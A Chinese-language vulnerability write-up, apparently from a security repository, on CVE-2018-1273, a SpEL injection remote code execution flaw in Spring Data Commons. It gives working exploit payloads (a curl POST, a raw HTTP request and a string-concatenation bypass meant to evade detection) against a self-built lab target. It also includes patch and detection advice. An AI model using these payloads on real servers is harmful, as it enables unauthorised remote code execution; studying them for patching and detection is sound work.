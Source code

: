 

# 命令执行_spring_CVE-2018-1273_Spring_Data_Commons远程命令执行漏洞（利用方式二可绕过）

---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-201804-564)
>
> [NVD (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2018-1273)

---

**Spring Data**是一个用于简化数据库访问，并支持云服务的开源框架，其主要目标是使数据库的访问变得方便快捷。**Spring Data Commons**是Spring Data下所有子项目共享的基础框架。

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，组件中存在远程代码执行漏洞，攻击者可构造包含有恶意代码的SPEL表达式实现远程代码攻击，直接获取服务器控制权限。

---

### 漏洞危害

未经身份验证的远程恶意用户（或攻击者）可以针对Spring Data REST支持的HTTP资源提供特制的请求参数，或者使用Spring Data的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 影响范围

- Spring Data Commons 1.13 to 1.13.10 (Ingalls SR10)
- Spring Data REST 2.6 to 2.6.10 (Ingalls SR10)
- Spring Data Commons 2.0 to 2.0.5 (Kay SR5)
- Spring Data REST 3.0 to 3.0.5 (Kay SR5)
- Older unsupported versions are also affected

---

## 漏洞原理

Spring Data Commons（1.13至1.13.10之前的版本，2.0至2.0.5的版本以及较旧的不受支持的版本）包含由于特殊元素的不正确中和而导致的属性绑定器漏洞。未经身份验证的远程恶意用户（或攻击者）可以针对Spring Data REST支持的HTTP资源提供特制的请求参数，或者使用Spring Data的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 源码分析

Spring 在自动解析用户的参数的时候采用了SpelExpressionParser 来解析 propertyName，但是并没有对参数进行进行有效的校验，

![img1](./img/spring_CVE-2018-1273_bypass/img1.png)

------

## 漏洞利用


---

### 靶机环境

自建环境，见文件夹内的.jar文件

---

### 利用方式 1

------

#### 利用思路

利用 this.getClass().forName("java.lang.Runtime").getRuntime().exec()函数构造 payload 进行代码执行漏洞利用

---

#### 漏洞利用

1）访问http://ip:8080/account

![img4](./img/spring_CVE-2018-1273_bypass/img4.png)

2) 发送payload：这里尝试了两种方法，建议采用第二种。

* 方法一：firefox浏览器F12打开，选择network，点击reload后得到请求包，再点击resend即可在浏览器上直接修改请求。如下

![img3](./img/spring_CVE-2018-1273_bypass/img3.png)



构造攻击数据，修改为POST请求，payload部分填写如下：

```
[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch aa.txt")]
```

* 方法二：执行命令

```
curl -X POST http://192.168.1.189:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch aa.txt')]=123"
```

![img2](./img/spring_CVE-2018-1273_bypass/img2.png)

3）攻击成功，结果如下：

![img7](./img/spring_CVE-2018-1273_bypass/img7.png)

### 利用方式 2(绕过)

------

#### 利用思路

修改payload为如下形式：

```
name[#this.getClass().forName('ja'+'va.l'+'ang.Run'+'time').getRuntime().exec('touch test22.txt')]=123
```

将原本的payload利用+拼接。

---

#### 漏洞利用

使用hackbar插件，发送如下，

![img14](./img/spring_CVE-2018-1273_bypass/img14.png)

这里选择hackbar的原因是编码方式的问题，若使用burpsuite，请求包如下：

```
POST /account HTTP/1.1
Host: 192.168.1.189:8080
Connection: keep-alive
Content-Length: 150
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.189:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.189:8080/account
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

name%5B%23this.getClass%28%29.forName%28%27ja%27%2B%27va.l%27%2B%27ang.Run%27%2B%27time%27%29.getRuntime%28%29.exec%28%27touch+test22.txt%27%29%5D=123
```



攻击成功，结果如下：

![img15](./img/spring_CVE-2018-1273_bypass/img15.png)


---

## 威胁防护建议

---

### 用户处置建议

升级框架到最新版本。将Spring Data Commons框架的版本由2.0.x升级到2.0.6，1.13.x的用户升级到1.13.11。

---

### 产品检测建议

可针对[#this.getClass().forName('java.lang.Runtime').getRuntime().exec()的命令及其拼接的形式进行检测。

---



# 附录

## 靶场搭建方法

代码下载：https://github.com/wearearima/poc-cve-2018-1273

编译后打成jar包（见poc文件夹）

```
cd ./poc
java -jar poc-cve-2018-1273-0.0.1-SNAPSHOT.jar
```

